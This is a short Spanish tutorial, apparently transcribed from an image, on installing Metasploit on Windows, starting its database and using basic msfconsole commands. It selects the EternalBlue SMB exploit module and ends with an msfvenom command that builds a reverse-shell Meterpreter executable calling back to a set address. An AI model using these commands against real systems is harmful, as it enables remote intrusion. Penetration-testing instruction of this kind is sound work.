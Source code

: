Metasploit: Directo al código – Guía Práctica de instalación.


# * Instalación de Metasploit *

Descripción: Cómo descargar e instalar Metasploit Framework en Windows.

Ejemplo paso a paso:

# 1. Descargar el instalador desde el sitio oficial
# 2. Ejecutar Metasploit-latest-windows-installer.exe y seguir el asistente

# 3. Verificar que msfconsole esté accesible:
C:\> msfconsole --version
# Framework Version: 6.2.0-dev

Tras la instalación, msfconsole.bat queda en C:\metasploit-framework\.

2. Configuración y fundamentos

Descripción: Poner en marcha la base de datos y aprender los comandos básicos.

# Iniciar el servicio de PostgreSQL
C:\> net start postgresql

# Entrar en msfconsole y comprobar conexión a la base de datos:
C:\> msfconsole
msf6 > db_status
[*] postgresql connected to msf

# Comandos básicos:
msf6 > help               # Listar opciones\ nmsf6 > search smb         # Buscar módulos SMB
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(...) > show options

3. Exploits y Payloads

Descripción: Tipos de exploits, payloads y generación con msfvenom.

# Generar ejecutable .exe con Meterpreter inverso
msfvenom -p windows/meterpreter/reverse_tcp \
        LHOST=192.168.1.10 LPORT=4444 \
        -f exe -o shell.exe
